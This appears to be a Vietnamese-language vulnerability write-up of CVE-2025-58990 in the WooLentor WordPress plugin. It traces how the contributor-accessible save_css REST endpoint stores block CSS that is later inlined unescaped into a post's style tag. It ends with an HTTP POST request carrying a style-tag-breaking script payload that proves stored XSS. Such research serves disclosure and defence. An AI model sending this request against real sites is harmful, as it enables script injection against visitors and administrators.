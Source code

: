Hàm `permission_check` quy định rằng chỉ những user có quyền **contributor** trở lên mới được phép sử dụng API này.

Ta chưa xác định được chính xác **namespace** ở đây là gì vì nó được khai báo ở đâu đó trong mã nguồn, không phải trong class này. Ta tận dụng route `save_css` để truy vết.

Truy cập `/wp-json/` và tìm với từ khóa `save_css`

![Search](assets/img/posts/2025-09-17-CVE-2025-58990/search.png)

Kết quả cho thấy endpoint thực tế là:

```
http://localhost/wp-json/woolentor/v1/save_css
```

Để biết **namespace** này được khai báo ở đâu, ta tiếp tục tìm trong mã nguồn với từ khóa `'woolentor/v1'`:

![Name Space](assets/img/posts/2025-09-17-CVE-2025-58990/name_space.png)

Có nhiều kết quả, nhưng vì ta đang phân tích tính năng **REST API**, nên tập trung vào file **Api.php**.

`register_routes( $namespace )` thuộc class `Manage_Styles` yêu cầu tham số `$namespace` nên có thể `woolentor/v1` được truyền ở đây thông qua thể hiện của class gọi đến hàm. ta tìm với từ khóa `Manage_Styles` trong file **Api.php** để biết nó được gọi như vậy không.

![Call Api](assets/img/posts/2025-09-17-CVE-2025-58990/callapi.png)

`namespace` chính xác được gọi và truyền như vậy.

👉 Như vậy, khi gửi **POST** request đến endpoint `http://localhost/wp-json/woolentor/v1/save_css`, callback `save_block_css` được gọi để thêm/sửa block CSS trong file và database. 
Khi truy cập vào post có `post_id` liên quan đến block CSS được lưu, `generate_inline_css` sẽ lấy nội block CSS và inline CSS trong thẻ `<style type="text/css"></style>` của post.

## Exploit 
### Detect XSS
Sử dụng user có role **contributor** tạo 1 post bất kì, ghi nhớ id của post đó.

Gửi **POST** request đến endpoint `http://localhost/wp-json/woolentor/v1/save_css` với XSS payload

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```
